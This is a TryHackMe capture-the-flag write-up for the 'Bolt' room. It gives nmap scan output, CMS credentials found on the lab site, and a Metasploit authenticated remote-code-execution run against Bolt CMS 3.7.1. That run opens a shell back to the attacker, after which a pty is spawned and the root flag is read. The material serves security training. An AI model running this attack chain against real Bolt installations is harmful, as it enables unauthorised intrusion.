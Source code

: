 # Bolt

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## Intro

| Room Info           | ![](.gitbook/assets/bolt.png)           |
| :------------------ | --------------------------------------- |
| 🔗 Name              | [Bolt](https://tryhackme.com/room/bolt) |
| 🎯 Target IP         | `10.10.218.91`                          |
| 📈 Difficulty level  | 🟢Easy                                   |
| 💲 Subscription type | Free                                    |
| 🐧 OS                | Linux                                   |

---

## Recon

```bash
su
echo "10.10.218.91 bolt.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/bolt
cd thm/bolt
nmap bolt.thm
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

nmap -sV -sC -Pn -oA bolt bolt.thm
```

```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 48ed6c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1f990b
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
```

Enumerate the Bolt web application.

![](.gitbook/assets/image-20230515194324231.png)

> 📌 `bolt`:`boltadmin123`

Find the Bolt CMS login page

![](.gitbook/assets/image-20230515194049520.png)

Navigate to

- `http://bolt.thm:8000/bolt/login`
- and use the `bolt` credentials

Once logged in, the Bolt version is at the bottom of the page.

> 📌 `Bolt 3.7.1`

---

## Exploitation

```bash
searchsploit bolt 3.7 -w

# EDB-ID is 48296
```

![](.gitbook/assets/image-20230515194653700.png)

Use Metasploit to exploit the [**`Authenticated Remote Code Execution`**](https://www.exploit-db.com/exploits/48296) Bolt vulnerability

```bash
msfconsole -q

setg RHOSTS bolt.thm
setg RHOST bolt.thm
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set USERNAME bolt
set PASSWORD boltadmin123
run
```

![root shell](.gitbook/assets/image-20230515195717170.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
THM{w****************************
```

![](.gitbook/assets/2024-10-20_22-14-18_761.png)

------

